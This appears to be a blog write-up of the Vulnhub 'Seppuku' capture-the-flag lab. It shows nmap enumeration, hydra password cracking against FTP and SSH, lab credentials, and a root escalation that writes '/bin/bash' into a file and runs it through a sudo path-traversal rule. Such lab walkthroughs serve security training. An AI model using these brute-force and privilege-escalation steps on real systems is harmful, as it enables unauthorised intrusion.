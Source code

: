 ```yaml
---
title: WRITE-UP Seppuku
date: 2024-08-02 00:00:01 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```


# Write-up seppuku

## 1. Enumeration

i used ```netdiscover```  to see real IP mylab

``` terminal
netdiscover
```
![alt text](/assets/img/seppuku/sep_netdiscover.png)
IP: ```192.168.100.17 ```

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.100.17
```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s

![alt text](/assets/img/seppuku/sep_nmap1.png)
![alt text](/assets/img/seppuku/sep_nmap2.png)

*   21 ```ftp``` 
*   22 ```ssh```
*   139-145 ```smb```
*   80-7601-7080-8088 ```http```

![alt text](/assets/img/seppuku/sep_7601_secret.png)
![alt text](/assets/img/seppuku/sep_rsakey.png)

## 2. Post Exploitation
crack ```ftp``` and ```ssh``` password with this credentials using ```hydra```

![alt text](/assets/img/seppuku/sep_ftp.png)

![alt text](/assets/img/seppuku/sep_ssh.png)

user ``` seppuku``` pass ```eeyoree```

## 3. Privilage Escalation

insite we find password of samurai is
```12345685213456!@!@A``` and i use ```sudo -l ``` to get ```root```

![alt text](/assets/img/seppuku/sep_ssh_all.png)

but in ```tanto``` don't have file but he use private key to go ```ssh``` and after recon we have it . 
```
ssh -i private.bak tanto@192.168.100.7 
touch .cgi_bin/bin
echo "/bin/bash" >> .cgi_bin/bin 
chmod 777 .cgi_bin/bin
```
after that i run ```sudo ``` with commnad can run with ```root```

```
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/
```

![alt text](/assets/img/seppuku/sep_root.png)

